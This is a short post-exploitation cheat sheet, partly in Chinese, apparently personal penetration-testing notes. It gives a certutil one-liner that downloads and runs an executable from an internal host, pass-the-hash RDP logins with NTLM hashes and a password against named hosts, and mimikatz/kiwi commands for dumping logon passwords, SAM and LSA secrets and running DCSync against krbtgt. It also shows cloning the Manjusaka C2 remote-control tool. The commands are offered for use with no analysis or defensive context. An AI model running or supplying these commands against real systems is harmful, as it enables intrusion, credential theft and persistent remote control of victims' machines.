 
# certutil 

certutil -urlcache -split -f http://172.20.0.27/QX.exe QX.exe & QX.exe   ##   certutil -urlcache -split -f http://172.20.0.27/aaa.exe aaa.exe & aaa.exe



# pass the hash

xfreerdp /u:crow /p:Admin@123 /v:192.168.135.133:3389

xfreerdp /pth:bfebfb61fd7fc7a61cab0feaaeb8f198 /v:172.20.100.254:3389 /u:administrator@ptsh /tls-seclevel:0 /timeout:80000 administrator

xfreerdp /pth:dfd3919b220de32a66432c93ce6c8a15 /v:172.20.100.254:3389 /u:wucheng@ptsh /tls-seclevel:0 /timeout:80000 wucheng



# 后渗透技巧

#load kiwi

#kiwi_cmd "sekurlsa:logonpasswords"

#kiwi_cmd "lsadump::dcsync /domain:yizhiyu.dc /user:krbtgt"

#kiwi_cmd "privilege::debug"

#wifi_list： #列出当前用户的wifi配置文件

#wifi_list_shared： 

#列出共享wifi配置文件/编码

#kiwi_cmd： 

#执行mimikatz的命令，后面接mimikatz.exe的命令

#lsa_dump_sam： 

#dump出lsa的SAM

#lsa_dump_secrets： 

#dump出lsa的密文

#creds_all： #列举所有凭据

**run post/windows/gather/dumplinks    #查看目标机最近的操作**



# Web界面的C2远控工具Manjusaka 

git clone https://github.com/YDHCUI/manjusaka.git

chmod -R 777 manjusaka
